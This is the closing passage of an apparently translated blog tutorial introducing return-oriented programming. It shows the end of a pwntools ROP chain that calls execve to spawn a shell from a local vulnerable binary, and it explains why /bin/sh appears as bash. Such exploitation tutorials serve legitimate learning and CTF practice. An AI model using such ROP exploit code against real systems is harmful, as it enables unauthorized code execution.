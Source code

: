 ```python
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x0000000000453b50) * 59 # add rax, 1 ; ret
payload += p64(0x00000000004546e5)  # syscall ; ret

p = process("./vuln")
p.recv()
p.sendline(payload)
p.interactive()
p.close()
```

Isn't it beautiful all this automation? Well, it doesn't always work, but when it works, the time saved is huge, especially in CTF... ;)

We will now exploit it:

<img class="img_full" src="run_exploit.png" alt="run_exploit" >

TADA, one more shell! :D

Small detail that kills, we see here that $0 (the name of the executed program) is `bash`, whereas in our ropchain, we had `/bin//sh` (which is understood as `/bin/sh`). But that's normal, because on my machine, `/bin/sh` is a symbolic link that points to bash! My real sh is `/usr/bin/sh`.

 > But... That doesn't match the previous exploits?!

Whoa! Whoa! One that follows! Yes, indeed...\
More information on this strangeness our dear beloved friens Pixis's website : [sh_vs_bash](https://beta.hackndo.com/sh-vs-bash/)

That's it for this short introduction to ROP, I hope it blown your mind as much as mine when I found out about this attack. You now have many cards to play with: BOF / shellcode / ret2libc / ROP / brain / ...

That is why our next meeting will be based on the analysis of a more complete program. So we're going to conclude this series and...

Blow up the world! `\o/`

<img class="img_med" src="like_a_boss.gif" alt="like_a_boss" >
